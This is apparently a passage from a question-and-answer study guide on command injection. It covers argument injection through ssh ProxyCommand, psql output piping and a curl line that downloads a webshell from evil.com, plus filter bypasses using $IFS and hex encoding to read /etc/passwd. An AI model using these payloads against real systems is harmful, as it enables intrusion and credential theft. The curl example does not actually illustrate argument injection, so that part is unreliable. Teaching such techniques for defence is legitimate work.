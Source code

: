 An attacker can chain malicious commands to extract data, execute additional commands, or escalate privileges.

---

### **3. Argument Injection Techniques**

**Question**:  
In some cases, attackers can inject commands into the arguments of existing commands. Explain how **argument injection** works. Can you provide a real-world example, such as exploiting `curl`, `psql`, or `ssh`?

**Answer**:  
**Argument injection** happens when an attacker can inject additional arguments into an existing command, which might lead to arbitrary code execution. For example:

- **SSH Command Injection**: If an application accepts SSH options from user input:
    ```bash
    ssh -o ProxyCommand="user_input" user@host
    ```
    If `user_input` is `touch /tmp/evil`, the final command becomes:
    ```bash
    ssh -o ProxyCommand="touch /tmp/evil" user@host
    ```

- **psql Command Injection**: An attacker might inject arguments into `psql`:
    ```bash
    psql -o "|id>/tmp/foo"
    ```
    This would run the `psql` command and execute `id > /tmp/foo` simultaneously.

- **curl Command Injection**: Similarly, `curl` commands may be vulnerable to argument injection. For example:
    ```bash
    curl http://evil.com -o webshell.php
    ```

---

### **4. Filter Bypass Techniques**

**Question**:  
Discuss some of the most advanced methods of bypassing command injection filters, such as bypassing using `$IFS`, `hex encoding`, `backslash-newline`, and `brace expansion`. Provide detailed examples.

**Answer**:  
- **`$IFS` (Internal Field Separator)**: `$IFS` in shell can be used to represent a space, tab, or newline, which can be leveraged to bypass space-based filters:
    ```bash
    cat${IFS}/etc/passwd
    ```
  
- **Hex Encoding**: Commands can be hex-encoded to bypass filters that block certain characters:
    ```bash
    echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64" # /etc/passwd
    ```
